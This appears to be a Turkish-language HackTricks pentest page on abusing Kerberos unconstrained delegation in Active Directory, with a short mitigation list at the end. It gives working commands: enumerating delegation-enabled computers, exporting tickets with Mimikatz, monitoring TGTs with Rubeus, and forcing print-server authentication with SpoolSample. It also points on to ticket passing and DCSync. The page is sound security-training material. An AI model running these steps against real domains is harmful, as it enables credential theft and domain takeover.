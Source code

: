 # Unconstrained Delegation

{{#include ../../banners/hacktricks-training.md}}

## Unconstrained delegation

Bu, bir Alan Yöneticisinin alan içindeki herhangi bir **Bilgisayar** için ayarlayabileceği bir özelliktir. Daha sonra, bir **kullanıcı Bilgisayara giriş yaptığında**, o kullanıcının **TGT'sinin bir kopyası** DC tarafından sağlanan **TGS'ye gönderilecek** ve **LSASS'ta bellekte saklanacaktır**. Yani, makinede Yönetici ayrıcalıklarınız varsa, **biletleri dökebilir ve kullanıcıları** herhangi bir makinede taklit edebilirsiniz.

Bu nedenle, "Unconstrained Delegation" özelliği etkinleştirilmiş bir Bilgisayara giriş yapan bir alan yöneticisi varsa ve o makinede yerel yönetici ayrıcalıklarınız varsa, bileti dökebilir ve Alan Yöneticisini her yerde taklit edebilirsiniz (alan privesc).

Bu niteliğe sahip Bilgisayar nesnelerini **bulabilirsiniz**; [userAccountControl](<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) niteliğinin [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>) içerip içermediğini kontrol ederek. Bunu ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’ LDAP filtresi ile yapabilirsiniz; bu, powerview'ün yaptığıdır:

<pre class="language-bash"><code class="lang-bash"># List unconstrained computers
## Powerview
Get-NetComputer -Unconstrained #DC'ler her zaman görünür ama privesc için faydalı değildir
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Export tickets with Mimikatz
</strong>privilege::debug
sekurlsa::tickets /export #Tavsiye edilen yol
kerberos::list /export #Başka bir yol

# Monitor logins and export new tickets
.\Rubeus.exe monitor /targetuser:&#x3C;username> /interval:10 #Yeni TGT'ler için her 10 saniyede bir kontrol et</code></pre>

Yönetici (veya kurban kullanıcının) biletini bellekte **Mimikatz** veya **Rubeus ile** yükleyin [**Pass the Ticket**](pass-the-ticket.md)**.**\
Daha fazla bilgi: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Unconstrained delegation hakkında daha fazla bilgi ired.team'de.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Force Authentication**

Eğer bir saldırgan **"Unconstrained Delegation" için izin verilen bir bilgisayarı** ele geçirebilirse, bir **Yazıcı sunucusunu** **otomatik olarak giriş yapmaya** **kandırabilir** ve bu da sunucunun belleğinde bir TGT **kaydedebilir**.\
Daha sonra, saldırgan **Kullanıcı Yazıcı sunucu bilgisayar hesabını taklit etmek için** bir **Pass the Ticket saldırısı** gerçekleştirebilir.

Bir yazıcı sunucusunu herhangi bir makineye giriş yapması için [**SpoolSample**](https://github.com/leechristensen/SpoolSample) kullanabilirsiniz:
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
Eğer TGT bir etki alanı denetleyicisinden geliyorsa, bir[ **DCSync attack**](acl-persistence-abuse/index.html#dcsync) gerçekleştirebilir ve DC'den tüm hash'leri elde edebilirsiniz.\
[**Bu saldırı hakkında daha fazla bilgi ired.team'de.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**Kimlik doğrulamayı zorlamak için diğer yollar:**

{{#ref}}
printers-spooler-service-abuse.md
{{#endref}}

### Mitigasyon

- DA/Admin oturum açmalarını belirli hizmetlerle sınırlayın
- Ayrıcalıklı hesaplar için "Hesap hassastır ve devredilemez" ayarını yapın.

{{#include ../../banners/hacktricks-training.md}}
